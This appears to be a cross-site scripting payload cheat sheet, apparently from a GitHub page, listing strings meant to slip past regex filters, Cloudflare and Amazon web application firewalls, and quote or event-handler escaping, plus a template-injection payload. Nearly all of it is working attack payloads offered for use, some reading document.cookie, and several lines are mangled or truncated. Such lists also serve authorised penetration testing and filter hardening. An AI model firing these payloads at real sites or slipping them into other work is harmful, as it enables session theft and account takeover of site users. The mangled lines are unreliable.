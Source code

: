 
Regex Filter BYpass:
====================
	==""><h1 onclick=alert`1`

	""><img src=x onload=alert(1)>


Cloudflare Fileter Bypass:
==========================

	<Svg Only=1 OnLoad=confirm(1)>
	"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
	"><svg/onload=alert(1)>
	"><svg/on/onload=alert(1)>
	“><sv\u01234\g\u01235/on\u01236load=confirm(1)>
	"><sv\u01234\g+s\01235\vg...
	"><sv\u01234\g+s\01235\vg+\01236\svg
	\u01237\/ ----> \/\u01237\/\ ----> /\u01237\/ ----> /
	On\u01234\load ----> On\u01234\+OnLoAd ----> onload
	"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
	“%3E%3Csvg onmouseover%3d”confirm(1"/%3E
	%22%3E%3Csvg%20onmouseover%3d%22confirm%26%230000000040document.domain)
	hello<svg on onload=(alert)(document.cookie)>
	%2522%2520onmouseover%253D%2522alert%25281%252 - ["onmouseover="alert(1)] double urlencode
	<svg onload=alert%26%230000000040"1")>
	
	AMAZON WAF BYPASS


          "><D3V%0aONPoiNtERENTEr%0d=%0d[document.cookie].find(confirm)%0dx>

         WAF bypass :

         <x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme




	

	


Other Bypass Techniques:
=======================
	When [">,alert] is filter/blocked use this:
	"autofocus+onfocus%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041#

2-  Inside javascript val = ''

			'-alert(1)-'
	Inside Javascript string - filter single quote and backslach escaped
	
			\';alert(1);<!--

3-	Filter Inside Event handler:

		%26apos;);alert(1)//

4-  Double quote delimiter: filter only >  

		"autofocus%20onfocus="alert(1)

	Single quote delimiter: >

		'autofocus onfocus='alert(1)

	Stored XSS - 

	{{constructor.constructor('alert('XSS')')()}}    - For more check out: HackTricks - CSTI 


